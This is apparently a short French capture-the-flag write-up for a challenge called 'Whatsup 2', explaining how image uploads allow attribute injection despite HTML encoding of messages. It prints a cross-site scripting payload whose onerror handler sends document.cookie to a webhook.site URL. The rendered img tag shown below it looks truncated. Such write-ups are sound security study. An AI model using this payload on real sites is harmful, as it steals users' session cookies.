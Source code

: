 
# Whatsup 2

On se rend vite compte qu'en envoyant un message chaque balise html et encodé. Ce qui rends l'envoi d'une xss impossible !

Ici c'est le même principe qu'avant avec encore moins de travail !

Le site va injecter du code html pour nous grâce à l'envoi d'image 

du coup mon payloads :

```JS
" onerror="document.location='https://webhook.site/14aa109b-daa5-4d81-95f1-54fcccd908a3?c='+document.cookie
```

Ce qui va injecter dans la page :

```HTML
 <img src="" onerror="'+document.cookie" />
```

On récupère notre flag comme dans le whatsup 1
